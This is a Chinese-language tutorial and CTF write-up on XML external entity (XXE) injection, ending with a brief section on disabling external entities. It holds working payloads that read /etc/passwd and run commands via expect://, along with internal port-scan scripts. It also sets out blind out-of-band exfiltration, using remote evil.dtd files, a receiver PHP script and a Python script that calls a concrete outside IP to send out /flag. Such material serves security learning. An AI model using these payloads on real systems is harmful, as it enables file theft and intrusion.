




# xxe漏洞

* [xxe漏洞](#xxe漏洞)
  * [漏洞简介](#漏洞简介)
  * [漏洞危害](#漏洞危害)
  * [<strong>XML基础知识</strong>](#xml基础知识)
  * [<strong>XXE漏洞原理</strong>](#xxe漏洞原理)
  * [XXE漏洞利用](#xxe漏洞利用)
    * [1、有回显的XXE](#1有回显的xxe)
    * [2、无回显的XXE漏洞](#2无回显的xxe漏洞)
  * [XXE漏洞绕过方式](#xxe漏洞绕过方式)
    * [<strong>有回显方式的XXE漏洞利用两种方式</strong>](#有回显方式的xxe漏洞利用两种方式)
    * [<strong>无回显方式的XXE漏洞利用</strong>](#无回显方式的xxe漏洞利用)
      * [漏洞验证](#漏洞验证)
      * [漏洞利用](#漏洞利用)
  * [<strong>XXE漏洞造成的危害</strong>](#xxe漏洞造成的危害)
      * [<strong>(1) 读取任意文件</strong>](#1-读取任意文件)
      * [<strong>(2) 执行系统命令</strong>](#2-执行系统命令)
      * [<strong>(3) 探测内网端口</strong>](#3-探测内网端口)
        * [Python端口探测脚本](#python端口探测脚本)
      * [<strong>(4) 攻击内网网站</strong>](#4-攻击内网网站)
  * [CTFSHOW题目](#ctfshow题目)
    * [web373](#web373)
    * [web374\-web376](#web374-web376)
    * [Web377](#web377)
    * [Web378](#web378)
  * [<strong>XML注入预防</strong>](#xml注入预防)
      * [<strong>方案一：使用语言中推荐的禁用外部实体的方法</strong>](#方案一使用语言中推荐的禁用外部实体的方法)
      * [方案二：预定义字符转义](#方案二预定义字符转义)
    * [参考资料](#参考资料)

------

## 漏洞简介

```php
XML外部实体注入简称XXE漏洞：XML用于标记电子文件使其具有结构性的标记语言，可以用来标记数据、定义数据类型，是一种允许用户对自己的标记语言进行定义的源语言。
```

------

## 漏洞危害

* 读取任意文件
* 执行系统命令
* 探测内网端口
* 攻击内网网站危害

------

## **XML基础知识**

XML用于标记电子文件使其具有结构性的标记语言，可以用来标记数据、定义数据类型，是一种允许用户对自己的标记语言进行定义的源语言。XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。

```php
<?xml version=”1.0”>           //xml声明

<!DOCTYPE  note [
<!ELEMENT note (to, from, heading, body)>
<!ELEMENT to   (#PCDATA)>                     //文档类型定义
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body   (#PCDATA)>
]>

<note>
<to>George</to>
<from>John</from>                                 //文档元素
<heading>Reminder</heading>
<body>Don’t forget the meeting</body>
```

------

## **XXE漏洞原理**

XXE Injection （XML External Entity Injection，XML 外部实体注入攻击）攻击者可以通过 XML 的外部实体来获取服务器中本应被保护的数据。对于XXE漏洞最为关键的部分是DTD文档类型，DTD 的作用是定义 XML 文档的合法构建模块。当允许引用外部实体时，通过恶意构造，可以导致任意文件读取、执行系统命令、探测内网端口、攻击内网网站等危害。DTD 可以在 XML 文档内声明，也可以外部引用；libxml2.9.1及以后，默认不再解析外部实体。

```php
内部声明 DTD             
<!DOCTYPE 根元素 [元素声明]>
引用外部 DTD                 
<!DOCTYPE 根元素 PBULIC "public_ID" "文件名">
/或者
<!DOCTYPE 根元素 SYSTEM "文件名">
```

在解析 XML 时，实体将会被替换成相应的引用内容，xml文档如下所示：

(1) 包含内部实体的 XML 文档

```php
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE c [
    <!ENTITY copyright "Copyright xx.xx.xx">
]>
<c>&copyright;</c>
```

(2) 包含外部实体的 XML 文档

```php
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE c [
    <!ENTITY copyright SYSTEM "Copyright xx.xx.xx">
]>
<c>&copyright;</c>
```


------

## XXE漏洞利用

XML 解析器解析外部实体时支持多种协议

```php
libxml2：file、http、ftp
PHP：file、http、ftp、php、compress.zlib、compress.bzip2、data、glob、phar
Java：file、http、ftp、https、jar、netdoc、mailto、gopher
.NET：file、http、ftp、https
```

同解析器可能默认对于外部实体会有不同的处理规则，有些可能不会对外部实体进行解析： 

 **PHP：**

```php
DOM
SimpleXML
```

**.NET：**

```php
System.Xml.XmlDocument
System.Xml.XmlReader
```

### 1、有回显的XXE

攻击者通过正常的回显或报错将外部实体中的内容读取出来。file 协议读取文件：

```php
##读取普通文件
<?xml version="1.0" encoding="utf-8"?>
  <!DOCTYPE name [
      <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
<root><name>&xxe;</name></root>
    
    
##读取php文件
<?xml version="1.0" encoding="utf-8"?>
  <!DOCTYPE name [
      <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">
  ]>
<root><name>&xxe;</name></root>
    
##扫描内网主机
<?xml version="1.0" encoding="utf-8"?>
  <!DOCTYPE name [
      <!ENTITY xxe SYSTEM "http://192.168.1.102:80">
  ]>
<root><name>&xxe;</name></root>
```


### 2、无回显的XXE漏洞

服务器没有回显，只能使用 Blind XXE 来构建一条带外数据通道提取数据; Blind XXE 主要使用了 DTD 约束中的参数实体和内部定义实体。参数实体：一个只能在 DTD 中定义和使用的实体，一般引用时用 % 作为前缀; 内部定义实体：在一个实体中定义的一个实体，即嵌套定义：

```javascript
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [<!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "http://192.168.0.1:8000" >]>
<root><name>&xxe;</name></root>
```



Blind XXE 采用嵌套形式建立带外数据通道，利用参数实体将本地内容读出来后，作为外部实体中的 URL 中的参数向其指定服务器发起请求，然后在其指定服务器的日志（Apache 日志）中读出文件的内容（指定服务器即攻击者的服务器）;DTD 中使用 % 来定义的参数实体只能在外部子集中使用，或由外部文件定义参数实体，引用到 XML 文件的 DTD 来使用; 有些解释器不允许在内层实体中使用外部连接，无论内层是一般实体还是参数实体，所以需要将嵌套的实体声明放在外部文件中。


------

## XXE漏洞绕过方式

### **有回显方式的XXE漏洞利用两种方式**

方式一，xml内容为：

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```



方式二、xml内容为：

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY  % d  SYSTEM "http://192.168.48.1/evil.dtd" >
%d;
]>
<root>
<name>&b;</name>
</root>
```

远程vps服务器 www/html文件下建立evil.dtd文件，文件内容如下：

```javascript
<!ENTITY b SYSTEM "file:///etc/passwd">
```


### **无回显方式的XXE漏洞利用**

#### 漏洞验证

（1）Dnslog(http://www.dnslog.cn/)上申请一个临时域名



 （2）构造xml请求DNSlog上的临时域名

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY  % d  SYSTEM "http:/028nka.dnslog.cn" >
%d;
]>
<root>
<name>&b;</name>
</root>
```



（3）回到Dnslog上，点击Refresh Record选项，如果有回显证明存在XXE漏洞


#### 漏洞利用

xml内容为：

```javascript
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY  % file  SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd" >
<!ENTITY  % remote  SYSTEM "http://192.168.48.1/evil2.dtd" >
%remote;
%all;
%send;
]>
    <root>
<name>&all;</name>
</root>
```

远程端vps上在www/html文件夹下放置两个文件一个为test.php文件用于接收信息，另一个为evil2.dtd，其中test.php代码如下：

```javascript
<?php
$file = "./test.txt";
$content = base64_decode($_GET['file']); 
file_put_contents($file , $content);
echo "\n"; 
?>
```

evil2.dtd中代码如下：

```javascript
<!ENTITY % all
"<!ENTITY &#x25; send SYSTEM 'http://ip/xxe/test.php?file=%file;'>"
>
```


------

## **XXE漏洞造成的危害**

#### **(1) 读取任意文件**

```javascript
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```


#### **(2) 执行系统命令**

在安装expect扩展的PHP环境里执行系统命令，其他协议也有可能执行系统命令；

```javascript
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://ifconfig" >]>
<root>
<name>&xxe;</name>
</root>
```


#### **(3) 探测内网端口**

```javascript
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://192.168.48.1:80" >]>
<root>
<name>&xxe;</name>
</root>
```

##### Python端口探测脚本

```php
import requests

url = 'http://192.168.48.2/simplexml_load_string.php'

xml = """<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://192.168.48.1:{}" >]>
<root>
<name>&xxe;</name>
</root>
"""
ports = [21,22,80,135,137,139,445,443,1433,3306,3389,8000,8080]
header = {"Content-Type":"application/xml"}
for i in ports:
    result = requests.post(url=url,data=xml.format(i),headers=header)
    if "Connection refused" not in result.text:
        print(f"[+]{i} is open")
    else:
        pass
```


#### **(4) 攻击内网网站**

```javascript
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://192.168.48.1:80" >]>
<root>
<name>&xxe;</name>
</root>
```


------

## CTFSHOW题目

### web373

```php
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $ctfshow = $creds->ctfshow;
    echo $ctfshow;
}
highlight_file(__FILE__);    
```

解题思路：有回显文件读取，直接用xxe Payload读取flag文件即可

在请求头部将Content-Type类型改成Content-Type: application/xml

提交Payload:

```xml
<!DOCTYPE test [
<!ENTITY xxe SYSTEM "file:///flag">
]>
<root>
<ctfshow>&xxe;</ctfshow>
</root>
```


### web374-web376

```php
##web374
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $ctfshow = $creds->ctfshow;
    echo $ctfshow;
}
highlight_file(__FILE__);    

##web375
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"/', $xmlfile)){
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    


##web376
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"/i', $xmlfile)){
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    
```

解题思路：无回显的文件读取，且禁用了版本号，外带不写版本号即可

在请求头部将Content-Type类型改成Content-Type: application/xml

提交Payload:

```xml-dtd
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY  % file  SYSTEM "php://filter/read=convert.base64-encode/resource=/flag" >
<!ENTITY  % remote  SYSTEM "http://VPSip/evil.dtd" >
%remote;
%all;
%send;
]>
```

远程端vps上在/var/www/html文件夹下放置两个文件一个为test.php文件用于接收信息，另一个为test.dtd，其中test.php代码如下：

```php
<?php
$file = "./test.txt";
$content = base64_decode($_GET['file']); 
file_put_contents($file , $content);
echo "\n"; 
?>
```

evil.dtd文件内容：

```xml-dtd
<!ENTITY % all
"<!ENTITY &#x25; send SYSTEM 'http://VPSip/test.php?file=%file;'>"
>
```


### Web377

```php
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"|http/i', $xmlfile)){
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__); 
```

解题思路：无回显的文件读取，且禁用了版本号和http，和上面题目一样进行外带不写版本号改成利用 utf-16 编码即可

python脚本

```python
import requests

url = "http://3c09f5d3-7dce-4e18-a175-eb3a64938899.challenge.ctf.show/"

payload = """<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY  % file  SYSTEM "php://filter/read=convert.base64-encode/resource=/flag" >
<!ENTITY  % remote  SYSTEM "http://119.91.82.192:8000/evil.dtd" >
%remote;
%all;
%send;
]>"""

requests.post(url,data=payload.encode("utf-16"))
print("Done!")
```


### Web378

解题思路：登录框抓个包，发现是回显 xml 形式，而且是回显 username 的值，构造 Payload读取flag文件

Payload:

```xml-dtd
<!DOCTYPE test [
<!ENTITY xxe SYSTEM "file:///flag">
]>
<user><username>&xxe;</username><password>23</password></user>
```


------

## **XML注入预防**

#### **方案一：使用语言中推荐的禁用外部实体的方法**

**PHP：**

```
libxml_disable_entity_loader(true);
```

**JAVA:**

```
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);

.setFeature("http://apache.org/xml/features/disallow-doctype-decl",true);

.setFeature("http://xml.org/sax/features/external-general-entities",false)

.setFeature("http://xml.org/sax/features/external-parameter-entities",false);
```

**Python：**

```
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```


#### 方案二：预定义字符转义

```javascript
<       &lt;
>       &gt;
&       &amp;
‘      &apos;
“      &quot;
```


### 参考资料

https://cloud.tencent.com/developer/article/1741360


